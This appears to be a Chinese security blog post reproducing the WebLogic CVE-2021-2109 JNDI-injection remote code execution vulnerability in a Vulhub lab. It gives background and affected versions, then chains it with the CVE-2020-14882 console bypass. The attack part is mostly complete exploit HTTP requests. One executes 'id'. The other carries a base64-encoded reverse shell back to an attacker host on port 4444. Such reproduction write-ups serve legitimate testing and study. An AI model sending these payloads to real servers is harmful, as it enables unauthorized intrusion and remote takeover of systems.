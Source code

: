 **目录**

[漏洞背景](#t0 "漏洞背景")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞复现](#t2 "漏洞复现")

[环境搭建](#t3 "环境搭建")

[命令执行](#t4 "命令执行")

[反弹shell](#t5 "反弹shell")

* * *

漏洞背景
----

2021年1月20日，Oracle官方发布了漏洞补丁，修了包括 CVE-2021-2109 [Weblogic](https://so.csdn.net/so/search?q=Weblogic&spm=1001.2101.3001.7020) Server远程代码执行漏洞在内的多个高危严重漏洞。CVE-2021-2109 中，攻击者可构造恶意请求，造成JNDI注入，执行任意代码，从而控制服务器。该漏洞为Weblogic的远程代码执行漏洞，主要由JNDI注入，导致攻击者可利用此漏洞远程代码执行，危险等级高。

漏洞影响版本
------

*   Weblogic Server 10.3.6.0.0
*   Weblogic Server 12.1.3.0.0
*   Weblogic Server 12.2.1.3.0
*   Weblogic Server 12.2.1.4.0
*   Weblogic Server 14.1.1.0.0

漏洞复现
----

### 环境搭建

使用Vulhub的CVE-2020-14882漏洞环境来复现，如下启动漏洞环境。

![](https://img-blog.csdnimg.cn/20210206155815574.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210206155853717.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用CVE-2020-14882未授权访问登录后台。未授权地址：[http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal](http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal "http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal")

![](https://img-blog.csdnimg.cn/20210206160332574.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 命令执行

开启JNDI监听

![](https://img-blog.csdnimg.cn/20210206180813695.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

发送数据包

```
POST /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.106;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1      
Host: 192.168.106.6:7001      
Pragma: no-cache      
Cache-Control: no-cache      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9      
Accept-Encoding: gzip, deflate      
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      1
cmd:id      1
Cookie: rememberMe=1; ADMINCONSOLESESSION=SHZ2XSBhINTtK05OkiYc3YmbENIp5MODNGWF7EaAje_adp2PQ58L!-286302025; rememberMe=1      1
Connection: close
```


![](https://img-blog.csdnimg.cn/20210206180942983.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 反弹shell

```
POST /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.106;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1      
Host: 192.168.106.6:7001      
Pragma: no-cache      
Cache-Control: no-cache      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9      
Accept-Encoding: gzip, deflate      
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      1
cmd:bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwNi4xLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}      1
Cookie: rememberMe=1; ADMINCONSOLESESSION=SHZ2XSBhINTtK05OkiYc3YmbENIp5MODNGWF7EaAje_adp2PQ58L!-286302025; rememberMe=1      1
Connection: close
```


![](https://img-blog.csdnimg.cn/20210206181242489.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)